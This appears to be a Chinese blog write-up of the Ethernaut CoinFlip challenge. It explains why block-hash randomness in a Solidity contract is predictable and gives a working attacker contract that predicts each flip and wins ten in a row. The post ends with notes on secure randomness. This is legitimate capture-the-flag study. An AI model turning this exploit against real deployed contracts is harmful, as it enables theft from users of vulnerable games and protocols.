



又只能看着wp做，/(ㄒoㄒ)/~~

但却是学到东西了：

```markdown
本關合約的問題源於使用block number作為隨機數，並且無預計到**呼叫者是智能合約**而非個人錢包的情況。只要使用智能合約呼叫即可保證呼叫者與被呼叫者block.number會相同，從而先計算出結果。
```


题目给的hint：

```
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the "?" page above in the top right corner menu, section "Beyond the console"
```


学习了。用合约（区块）来调用，而不是手动调用。

```solidity
pragma solidity ^0.6.0;

import './SafeMath.sol';

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlip {
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address levelInstance;

  constructor(address _levelInstance) public {
      levelInstance = _levelInstance;
  }

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    if (side == true) {
        ICoinFlip(levelInstance).flip(true);
    } else {
        ICoinFlip(levelInstance).flip(false);
    }
  }
}
```


这里要注意环境的injector，还有用 estimated gas。。。




然后开始guess。

注意，以太坊是15秒生成一个区块，所以我们隔15秒guess一次。




每次guess也要与metamask交互。我的理解：跨合约交互都要付gas？


点十次后，再回题目查看：



可以看到连续十次了，submit instance即可。

但submit instance的时候发现network fee不够。。。麻了。。。）


ok，隔一天来就能成功submit了~


```
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).
```

